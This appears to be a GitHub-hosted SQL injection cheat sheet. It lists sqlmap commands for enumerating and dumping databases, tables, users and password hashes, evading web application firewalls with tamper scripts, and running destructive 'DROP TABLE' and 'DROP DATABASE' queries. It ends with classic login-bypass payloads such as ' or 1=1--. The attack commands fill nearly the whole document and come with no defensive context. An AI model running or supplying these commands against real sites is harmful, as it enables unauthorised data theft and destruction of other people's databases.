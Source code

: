 # SQLMAP

1. yoursite.com/news.php?id=1
2. python2 sqlmap.py "yoursite.com/news.php?id=1" --dbs
3. python2 sqlmap.py "yoursite.com/news.php?id=1" --tables -D yoursite
4. python2 sqlmap.py "yoursite.com/news.php?id=1" --columns -D databasename -T tablename
5. python2 sqlmap.py "yoursite.com/news.php?id=1" --dump -D databasename -T tablename
6. python2 sqlmap.py "yoursite.com/news.php?id=1" --level=5 --risk=3 --dbs
7. python2 sqlmap.py "yoursite.com/news.php?id=1" --cookie='PHPSESSID=gsi3k0dblqj5tj8arcptqs73bi' --dbs --batch --dump --tables --columns --tamper=between,bluecoat,equaltolike,greatest,ifnull2ifisnull,modsecurityzeroversioned,multiplespaces,randomcase,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor --level 5 --dbms=mysql
8. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent
9. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent --dbs
10. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent -D tes3 --tables
11. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent -D tes3 -T coba --dump
12. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent --sql-query "DROP TABLE nama_tabel"
13. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent --sql-query "DROP DATABASE nama_database"
14. python3 sqlmap.py -r request.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent --dbs --level=5 --risk=3 --threads=5 --hex --data="id=2618 AND 2323=2323" --dbms=Oracle

// others
1. python sqlmap.py -u "http://yoursite.com/news.php?id=1" --dbs --current-user --current-db --is-dba --users --passwords --roles --hostname --privileges
2. python sqlmap.py -u "https://target.com/?id=1" -t 10 --tamper="between,randomcase,space2comment" --dbs --random-agent --risk=3 --level=5

// set parameter target
sqlmap -r ./target.txt --tamper="between,randomcase,space2comment" --random-agent -p username,password


# SQL Injection basics
1. '+OR+1=1-- (microsoft)
2. administrator'--
3. ' or 1=1 limit 1 -- -+
4. ' or 1=1 LIMIT 1 OFFSET 2 -- -+

Reference : 
1. https://sangtopihitam.blogspot.com/2020/02/tutorial-install-sqlmap-dan-cara.html
2. https://hackertarget.com/sqlmap-tutorial/
